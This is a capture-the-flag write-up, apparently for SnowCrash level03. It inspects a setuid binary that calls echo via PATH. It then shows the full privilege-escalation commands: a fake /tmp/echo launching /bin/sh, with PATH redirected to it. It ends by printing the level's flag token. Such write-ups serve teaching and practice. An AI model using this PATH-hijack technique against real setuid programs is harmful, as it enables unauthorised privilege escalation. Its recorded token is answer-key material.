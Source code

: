 # level03

1. Files found in `~/` :

```bash
./level03
```

File : `./level03` belonging to `flag03`

2. Binary analysis

```bash
chmod +x level03
./level03
Exploit me
```

Binary inspection with strings and file :

```bash
file level03
strings -n 6 level03 | grep echo
```

The binary uses echo from its PATH in the environment and has the rights of its creator (setuid / setgid).

```bash
setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```

```bash
/usr/bin/env echo Exploit me
```

3. Exploitation

Redirect echo to a command prompt in order to launch `getflag`.

```bash
echo '/bin/sh' > /tmp/echo
chmod +x /tmp/echo
export PATH=/tmp:$PATH
./level03
getflag
```

4. Token discovered

The token is : `qi0maab88jeaj46qoumi7maus`
